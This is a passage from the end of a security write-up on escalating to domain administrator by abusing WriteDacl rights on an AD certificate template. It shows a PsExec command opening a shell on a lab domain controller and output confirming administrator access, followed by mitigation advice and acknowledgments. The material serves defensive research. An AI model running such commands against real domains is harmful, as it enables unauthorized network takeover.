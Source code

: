 Now we achieved domain escalation by abusing WriteDacl for a certificate template:

```
C:\Tools>PsExec64.exe -accepteula \\dc01.contoso.local cmd.exe

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
DC01

C:\Windows\system32>whoami /user

USER INFORMATION
----------------

User Name             SID
===================== ============================================
contoso\administrator S-1-5-21-3654360273-254804765-2004310818-500

C:\Windows\system32>
```


## Mitigation
This attack method could be mitigated by restricting the assignment of WriteDacl permissions to certificate template objects.

## Conclusion
In this article, we performed ACE attack to a vulnerable template for domain escalation.
Excessive allocation of WriteDacl permissions for domain objects lead to domain escalation vulnerability.
In order to reduce the possibility of being attacked, certificate templates must be hardened.

## Acknowledgment
+ Will Schroeder ([@harmj0y](https://twitter.com/harmj0y))
+ Lee Christensen ([@tifkin_](https://twitter.com/tifkin_))
+ Christoph Falta ([@cfalta](https://twitter.com/cfalta))
+ Mike Jankowski-Lorek ([@MJL_PL](https://twitter.com/MJL_PL))
+ Milosz Piasecki ([@CQUREAcademy](https://twitter.com/cqureacademy))